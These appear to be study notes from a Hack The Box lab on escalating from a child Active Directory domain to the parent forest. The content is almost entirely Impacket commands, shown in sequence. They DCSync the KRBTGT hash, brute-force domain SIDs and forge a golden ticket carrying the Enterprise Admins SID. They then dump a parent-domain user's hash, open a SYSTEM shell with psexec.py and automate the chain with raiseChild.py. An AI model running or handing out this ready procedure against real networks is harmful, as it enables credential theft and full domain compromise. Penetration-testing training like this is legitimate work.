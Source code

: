 We need:
- The KRBTGT hash for the child domain (dcsync with secretsdump)
- The SID for the child domain (lookupsid)
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain 
- The SID of the Enterprise Admins group of the root domain (lookupsid)

Tool: secretsdump.py

**Performing DCSync with secretsdump.py
```
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

**Performing SID Brute Forcing using lookupsid.py
```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "DOMAIN SID"
```

**Grabbing the Domain SID & Attaching to Enterprise Admin's RID
```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

**Constructing a Golden Ticket using ticketer.py
```
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```
- Creates ccache file which stores Kerberos credentials 

**Setting the KRB5CCNAME Environment Variable
```
export KRB5CCNAME=hacker.ccache 
```
- Have to point to ccache file

**Get NTLM hash of a domain user
```
secretsdump.py logistics.inlanefreight.local/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5 -just-dc-user INLANEFREIGHT/bross
```

**Getting a SYSTEM shell using Impacket's psexec.py
```
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

**Performing the Attack with raiseChild.py
```
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
